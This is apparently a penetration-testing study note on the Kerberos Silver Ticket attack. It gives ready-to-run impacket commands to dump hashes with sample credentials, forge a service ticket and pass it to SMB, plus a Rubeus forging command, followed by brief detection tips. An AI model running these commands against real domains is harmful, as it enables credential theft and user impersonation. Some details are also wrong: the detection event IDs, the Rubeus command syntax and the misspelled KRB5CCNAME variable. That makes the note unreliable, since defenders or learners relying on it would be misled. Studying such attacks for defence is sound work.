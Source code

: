 - [[Kerberos]] attack.
- Forge a TGS ticket for a service using the service account password hash (no DC contact).
- Purpose is to impersonate a user to a specific service:
	- Bypasses TGT validation and avoids detection, since DC is never contacted.
# How It Works

1. Attacker obtains service account's NTLM hash (e.g. from [[LSASS (Local Security Authority Subsystem Service)|LSASS]], [[Secretsdump]] or [[Kerberoasting]]).
2. Forge a TGS ticket for a target SPN using that hash.
3. Forged ticket is injected/passed to access the service as an impersonated user.

It does not require:

- Domain Admin
- KRBTGT hash
- DC communication until after forging is complete.

![[Silver Ticket Diagram.png]]
# Exploitation Steps

For Linux:

- Dumping the NTLM hash of service account:
	- `impacket-secretsdump 'corp.local/administrator:Password1@dc.corp.local'`
- Forging a silver ticket:
	- `impacket-ticketer -nthash <NTLM_HASH> -domain-sid <DOMAIN_SID> -domain corp.local -spn cifs/dc01.corp.local -user fakeuser -outputfile silver.cifs.ticket`
- Passing the ticket:
	- `export KRB5CCNAMe=silver.cifs.ticket`
	- `impacket-smbclient -k -no-pass -dc-ip dc.corp.local cifs/dc01.corp.local`

For Windows:

- Forge silver ticket:
	- `Rubeus.exe tgt::forge /user:fakeuser /rc4:<NTLM_HASH> /domain:corp.local /sid:<DOMAIN_SID> /service:cifs /target:dc01.corp.local /ptt`
		- `/ptt` injects the ticket directly into the current session.
- Access the service (e.g. file share):
	- `dir \\dc01.corp.local\C$`
# Detection/Defense

- Silver tickets are not validated by DC:
	- No Kerberos TGT requests (Event ID 4678)
	- No TGS requests for the forged ticket (Event ID 4679)
- Detect by:
	- monitoring anomalous service ticket usage.
	- looking for non-existent usernames accessing services.
	- detecting tickets with invalid PACs.
# Notes

- High stealth = high risk if SPN hashes are exposed.
- Common targets:
	- `cifs/` - file shares
	- `http/` - web apps, IIS
	- `mssqlsvc/` - SQL servers
- Easier to perform than [[Golden Ticket Attack|Golden Ticket]] since no KRBTGT hash is needed.


